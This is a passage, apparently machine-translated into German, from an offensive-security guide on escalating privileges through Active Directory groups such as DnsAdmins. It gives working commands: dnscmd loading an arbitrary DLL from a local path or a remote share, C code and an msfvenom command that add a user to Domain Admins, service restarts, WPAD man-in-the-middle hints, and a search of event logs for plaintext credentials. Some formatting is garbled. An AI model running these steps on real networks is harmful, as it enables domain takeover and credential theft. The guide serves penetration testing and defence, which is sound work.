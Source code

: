 Um die Mitglieder der DnsAdmins-Gruppe aufzulisten, verwenden Sie:
```powershell
Get-NetGroupMember -Identity "DnsAdmins" -Recurse
```
### Führen Sie beliebige DLL aus

Mitglieder können den DNS-Server anweisen, eine beliebige DLL (entweder lokal oder von einem Remote-Share) mit Befehlen wie: zu laden
```powershell
dnscmd [dc.computername] /config /serverlevelplugindll c:\path\to\DNSAdmin-DLL.dll
dnscmd [dc.computername] /config /serverlevelplugindll \\1.2.3.4\share\DNSAdmin-DLL.dll
An attacker could modify the DLL to add a user to the Domain Admins group or execute other commands with SYSTEM privileges. Example DLL modification and msfvenom usage:
```

```c
// Modify DLL to add user
DWORD WINAPI DnsPluginInitialize(PVOID pDnsAllocateFunction, PVOID pDnsFreeFunction)
{
system("C:\\Windows\\System32\\net.exe user Hacker T0T4llyrAndOm... /add /domain");
system("C:\\Windows\\System32\\net.exe group \"Domain Admins\" Hacker /add /domain");
}
```

```bash
// Generate DLL with msfvenom
msfvenom -p windows/x64/exec cmd='net group "domain admins" <username> /add /domain' -f dll -o adduser.dll
```
Das Neustarten des DNS-Dienstes (was zusätzliche Berechtigungen erfordern kann) ist notwendig, damit die DLL geladen werden kann:
```csharp
sc.exe \\dc01 stop dns
sc.exe \\dc01 start dns
```
Für weitere Details zu diesem Angriffsvektor siehe ired.team.

#### Mimilib.dll
Es ist auch möglich, mimilib.dll für die Ausführung von Befehlen zu verwenden, indem es modifiziert wird, um spezifische Befehle oder Reverse Shells auszuführen. [Überprüfen Sie diesen Beitrag](https://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html) für weitere Informationen.

### WPAD-Datensatz für MitM
DnsAdmins können DNS-Datensätze manipulieren, um Man-in-the-Middle (MitM)-Angriffe durch das Erstellen eines WPAD-Datensatzes nach Deaktivierung der globalen Abfrageblockliste durchzuführen. Tools wie Responder oder Inveigh können zum Spoofing und Erfassen von Netzwerkverkehr verwendet werden.

### Event Log Readers
Mitglieder können auf Ereignisprotokolle zugreifen und möglicherweise sensible Informationen wie Klartextpasswörter oder Details zur Befehlsausführung finden:
```powershell
# Get members and search logs for sensitive information
Get-NetGroupMember -Identity "Event Log Readers" -Recurse
Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'}
```
## Exchange Windows Berechtigungen  
Diese Gruppe kann DACLs auf dem Domänenobjekt ändern und möglicherweise DCSync-Berechtigungen gewähren. Techniken zur Privilegieneskalation, die diese Gruppe ausnutzen, sind im Exchange-AD-Privesc GitHub-Repo detailliert beschrieben.
```powershell
# List members
Get-NetGroupMember -Identity "Exchange Windows Permissions" -Recurse
```